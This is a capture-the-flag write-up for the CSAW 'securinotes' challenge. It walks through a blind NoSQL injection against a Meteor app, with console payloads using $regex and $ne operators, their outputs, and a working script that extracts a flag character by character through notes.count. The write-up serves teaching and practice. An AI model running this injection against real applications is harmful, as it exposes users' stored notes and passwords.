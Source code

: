 ```yaml
---
title: "securinotes"
date: 2022-08-14T14:28:16-04:00
draft: false
authors: ["CDT Daniel Chung", "CDT Jalen Morgan"] 
tags: ["csaw", "web"]
---
```


A meteor vulnerability found in 2019 and using a note storage webpage as your password database...

## Description

You have access to the SecuriNotes application. You overheard your coworker Terry talking about how he uses it as a password manager. What could possibly go wrong...

Author: h34d4ch3, RangeForce

http://web.chal.csaw.io:5002


## TL;DR

Webpage is running meteor, meteor has known blind nosql injection vulnerability. Exploit using web console and get flag.

## Explanation

https://medium.com/rangeforce/meteor-blind-nosql-injection-29211775cd01

```
Meteor.call("notes.add", {}, console.log)
// creates new note and returns -> jELNgdCZxJoZm6TvL
Meteor.call("notes.count", {"_id": "jELNgdCZxJoZm6TvL"}, console.log)
// returns -> 1
```

you're basically writing a js nosql injection to run in your console

testing stuff here
```
Meteor.call("users.count", {
    "username": "terry",
    "role": {$regex: '^[a-m].*'}
}, console.log);


Meteor.call("notes.count", {}, console.log)
undefined
undefined 43774

Meteor.call("notes.count", {"_id":"vvfsYsjzuEP2BsSye"}, console.log)

Meteor.call("notes.count", {"_id":"vvfsYsjzuEP2BsSye"}, console.log)
undefined
undefined 1

Meteor.call("notes.count", {"_id":{$regex: '^[a-zA-Z0-9].*'}}, console.log)
undefined
undefined 9756

Meteor.user()
Object { _id: "cChso3FdudJHBCyg8", username: "f0ur3y3s@gmail.com" }

Meteor.call("notes.find", {"_id":"vvfsYsjzuEP2BsSye"}, console.log)
undefined
undefined 1

Meteor.call("notes.count", {"_id":{$regex: '^[a-zA-Z0-9].*'}}, console.log)
undefined
undefined 43974 meteor.js:1234:22
Meteor.call("notes.count", {}, console.log)
undefined
undefined 43975
```

find the id is the main part

originally thought that finding the id of terry was what we needed\
but thats not going to work because we dont know his username

```
Meteor.call('notes.count', {'body': 'flag'}, (err, res))
```

Looking into app.js, we can see this function defined:

```
Template.Layout_login.onCreated(function () {
  var self = this;
  this.notescount = new ReactiveVar(0);

  function noteCountUpdater() {
    Meteor.call('notes.count', {
      body: {
        $ne: ''
      }
    }, function (err, res) {
      //console.log(res)
      self.notescount.set(res);
    });
```


```
Meteor.call('users.count', (err, res) => {
  console.log(res);
});
```

https://book.hacktricks.xyz/pentesting-web/nosql-injection


https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/split
use an index from the string ` abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_`

```
' abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_'.split('')
Array(66) [ " ", "{", "}", "_", "0", "1", "2", "3", "4", "5", … ]
```

https://stackoverflow.com/questions/21824244/mongodb-regex-searching-issue-in-meteor
regex searching, we are searching for `flag{` + a character from our alphabet list

https://www.w3schools.com/jsref/met_win_settimeout.asp
set timeout

https://www.netsparker.com/blog/web-security/what-is-nosql-injection/

https://www.google.com/search?client=firefox-b-1-d&q=meteor+js+nosql+injection

https://www.neuralegion.com/blog/blind-sql-injection/

https://owasp.org/www-community/attacks/Blind_SQL_Injection

https://book.hacktricks.xyz/pentesting-web/nosql-injection


## Final Script

(function exploit(field, alphabet, data = '', index = 0){
    Meteor.call('notes.count', {[field]: {$regex: data + alphabet[index]}}, (err, res) => {
        if (res == 0){
            index++;
        } 
        else {
            data += alphabet[index];
            console.log(data, res);
            index = 0;
        }
        if (index >= alphabet.length) {
            console.log("Done", data);
            return;
        }
        setTimeout(function(){exploit(field, alphabet, data, index);});
    });
})
('body', ' abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_'.split(''), 'flag{');

## How does it work?

- calls the notes.count function to check if the substring we have is equal to flag{. 
- we start off with the alphabet and our string as flag{. 
- we check if res==0 then we increase our index in the alphabet going to the next letter. 
- if its 1 then we add the letter to our flag{ string and print it out. 
- the alph len check is to prevent out of bounds errors. 
- the timeout sets the loop which is a js thing

![exploit](/img/meteorexploit.JPG)

## Flag

flag{4lly0Urb4s3}


